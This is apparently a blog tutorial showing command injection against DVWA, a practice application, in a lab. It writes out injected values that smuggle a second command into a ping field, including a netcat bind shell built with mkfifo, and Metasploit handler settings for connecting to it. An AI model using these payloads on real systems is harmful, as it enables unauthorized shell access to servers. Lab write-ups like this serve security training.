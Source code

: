 ```yaml
---
layout: post
section-type: post
title: Exploiting Command Injection vulnerabilities
category: tech
tags: [ 'redteam', 'kali', 'dvwa' ]
---
```

Command Injection is the manipulation of a vulnerable software in order to execute arbitrary commands on the host operating system.
Command Injections are possible when a vulnerable application skips the input validation and uses it for executing a shell command on the host operating system.
We'll get our hands on [DVWA]({% post_url 2017-04-02-dvwa-kali %})'s Command Injection section, and we'll open a backdoor on the server using [Metasploit](https://www.metasploit.com/).

Visit the *Command Injection* section of DVWA.

![ci-0](/img/posts/ci/ci-0.png)

The page says that it will ping an IP address for us, so let's see what will do for the IP *127.0.0.1*:

![ci-1](/img/posts/ci/ci-1.png)

Now, let's try to append a list bash command after our input IP address:

<pre><code data-trim class="bash">
127.0.0.1; ls
</code></pre>

![ci-2](/img/posts/ci/ci-2.png)

Sweet, DVWA simply appends our input to the underlying bash command!

Now, let's listen on port *4444* using netcat and redirect all the incoming bytes to a bash shell:

<pre><code data-trim class="bash">
127.0.0.1; mkfifo /tmp/pipe ; sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe
</code></pre>

![ci-3](/img/posts/ci/ci-3.png)

As you will notice, the page is loading forever, which means that our backdoor is open and waiting for us... :smile:

Let's start msfconsole and open the shell on the server:

<pre><code data-trim class="bash">
⁠⁠⁠msfconsole
use exploit/multi/handler
set payload linux/x64/shell/bind_tcp
set RHOST 127.0.0.1
</code></pre>

![ci-4](/img/posts/ci/ci-4.png)

Note that we didn't set the LPORT of bind_tcp, since the default one is *4444*.

As you can see, we are the *www-data* user, and that's why we can't read the /etc/shadow file, which contains the user passwords of the operating system.
But, we have all the privileges that *www-data* user has and we can e.g. modify DVWA or escalate to root, by exploiting a local privilege escalation vulnerability.

Happy binding!
